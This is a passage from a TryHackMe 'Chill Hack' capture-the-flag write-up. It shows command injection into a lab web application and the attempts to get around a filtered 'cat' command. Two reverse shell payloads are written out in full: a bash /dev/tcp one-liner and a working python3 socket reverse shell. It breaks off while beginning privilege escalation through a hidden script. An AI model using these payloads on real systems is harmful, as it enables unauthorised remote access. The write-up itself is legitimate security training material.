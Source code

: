 `ls;`

![[TryHackMe/Chill Hack/images/14.png]]

For example:

`ls; whoami;`

![[TryHackMe/Chill Hack/images/15.png]]

Still `cat` command sanitized by the app.

![[TryHackMe/Chill Hack/images/16.png]]

we are on `/var/www/html/secret` path.

![[TryHackMe/Chill Hack/images/17.png]]

In a different way, let's use `reverse shell` to bypass web application's read restrictions. 

![[TryHackMe/Chill Hack/images/18.png]]

Our application has `bash` binary ,so I will use this payload:

`sh -i >& /dev/tcp/10.10.10.10/9001 0>&1`

it did not work.  Let's try `python3`.

![[TryHackMe/Chill Hack/images/19.png]]


Done ! ! !

The reverse shell payload in below worked !

export RHOST="10.0.0.1";export RPORT=4242;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'

![[TryHackMe/Chill Hack/images/20.png]]


## Exploitation

Let's analyze the `index.php` source code:



As a `www-data` user, we can run following script:
![[TryHackMe/Chill Hack/images/21.png]]

This is the content of the `.helpline.sh` hidden shell script:

![[TryHackMe/Chill Hack/images/22.png]]

With the help of `bash` binary we can also run `hidden scripts` on the command line.

![[TryHackMe/Chill Hack/images/23.png]]
